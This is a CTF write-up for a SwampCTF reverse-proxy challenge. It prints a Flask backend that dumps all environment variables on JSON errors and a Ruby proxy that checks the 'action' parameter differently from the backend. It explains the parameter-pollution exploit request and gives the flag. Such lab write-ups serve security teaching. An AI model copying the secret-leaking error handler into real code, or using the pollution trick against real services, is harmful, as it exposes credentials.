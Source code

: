 # Challenge description

I have created a safe reverse proxy that only forwards requests to retrieve debug information from the backend. What could go wrong?

# Solve
In this challenge there is a sorce and there is two main code

# backend.py
```
from flask import Flask, jsonify, request
import os
import logging

app = Flask(__name__)

app.config['DEBUG'] = os.getenv('DEBUG', 'False')
app.config['LOG_LEVEL'] = os.getenv('LOG_LEVEL', 'warning')


@app.route('/api', methods=['POST'])
def api():
    param = request.args.get('action')
    app.logger.info(f"Received param: {param}")

    if param == 'getFlag':
        try:
            data = request.get_json()
            app.logger.info(f"Received JSON data: {data}")
            return jsonify(message="Prased JSON successfully")
        except Exception as e:
            app.logger.error(f"Error parsing JSON: {e}")
            debug_data = {
                'headers': dict(request.headers),
                'method': request.method,
                'url': request.url,
                'env_vars': {key: value for key, value in os.environ.items()}
            }
            return jsonify(message="Something broke!!", debug_data=debug_data)

    if param == 'getInfo':
        debug_status = app.config['DEBUG']
        log_level = app.config['LOG_LEVEL']
        return jsonify(message="Info retrieved successfully!", debug=debug_status, log_level=log_level)

    return jsonify(message="Invalid action parameter!", param=param)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

# server.rb:
```
require 'sinatra'
require 'rack/proxy'
require 'json'

class ReverseProxy < Rack::Proxy
  def perform_request(env)
    request = Rack::Request.new(env)

    # Only allow requests to the /api?action=getInfo endpoint
    if request.params['action'] == 'getInfo'
      env['HTTP_HOST'] = 'backend:5000'
      env['PATH_INFO'] = '/api'
      env['QUERY_STRING'] = request.query_string
      body = request.body.read
      env['rack.input'] = StringIO.new(body)
      
      begin
        json_data = JSON.parse(body)
        puts "Received valid JSON data: #{json_data}"
        super(env)
      rescue JSON::ParserError => e
        puts "Error parsing JSON: #{e.message}"
        return [200, { 'Content-Type' => 'application/json' }, [{ message: "Error parsing JSON", error: e.message }.to_json]]
      end
    else
      [200, { 'Content-Type' => 'text/plain' }, ["Unauthorized"]]
    end
  end
end

use ReverseProxy

set :bind, '0.0.0.0'
set :port, 8080
puts "Server is listening on port 8080..."
```
# Analyze:

Reverse Proxy (Ruby/Sinatra):
<ul>
<li>Only forwards requests with action=getInfo.</li>

<li>Validates JSON syntax but ignores Content-Type</li>
</ul>

Backend Server (Python/Flask):
<ul>
<li>Endpoint /api accepts POST requests.</li>

<li>Action getFlag: Parses JSON and leaks os.environ on error.</li>

<li>Action getInfo: Returns basic debug info.</li>
</ul>

# Vulnerability
<ul>
  
<li>Parameter Pollution: The proxy and backend parse action from different sources. </li>
  
<li>Insecure Error Handling: Backend returns os.environ on JSON parsing errors. </li>
  
</ul>
  
# Exploit
```
URL/api?action=getFlag&action=getInfo

{"anything":"\'\'"}
```
![image](https://github.com/user-attachments/assets/fb55a150-0f73-4589-8374-27602e2b2a5a)

# FLAG:swampCTF{1nt3r0p3r4b1l1ty_p4r4m_p0llut10n_x7q9z3882e}
